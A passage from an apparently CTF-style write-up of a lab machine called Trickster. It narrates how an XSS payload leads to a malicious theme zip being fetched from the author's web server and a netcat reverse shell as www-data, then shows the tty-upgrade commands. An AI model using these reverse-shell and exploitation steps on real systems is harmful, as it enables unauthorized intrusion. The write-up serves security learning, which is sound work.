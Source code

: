 ```
```

It starts by uploading the XSS payload. It prints a bunch of wrong information about ports for `nc` and `http.server`, which is fine as I’ve got my own running. Then it goes into a loop trying to trigger the reverse shell. The first two return 403 forbidden, as the exploit hasn’t run. Once the agent (automation) views the XSS, there’s a request on my webserver:

```
10.10.11.34 - - [24/Sep/2024 14:38:02] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -

```

The next request above shows 200, as it found the webshell, and then there’s a shell at `nc`:

```

oxdf@hacky$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.34 59308
Linux trickster 5.15.0-121-generic #131-Ubuntu SMP Fri Aug 9 08:29:53 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 18:38:38 up  7:49,  0 users,  load average: 0.11, 0.18, 0.17
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

I’ll upgrade my shell using the [standard trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@trickster:/$ ^Z
[1]+  Stopped                 nc -lnvp 9001
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 9001
             ‍reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@trickster:/$ 

```

## Shell as james

### Enumeration

#### Users

There are three users on Trickster with home directories:

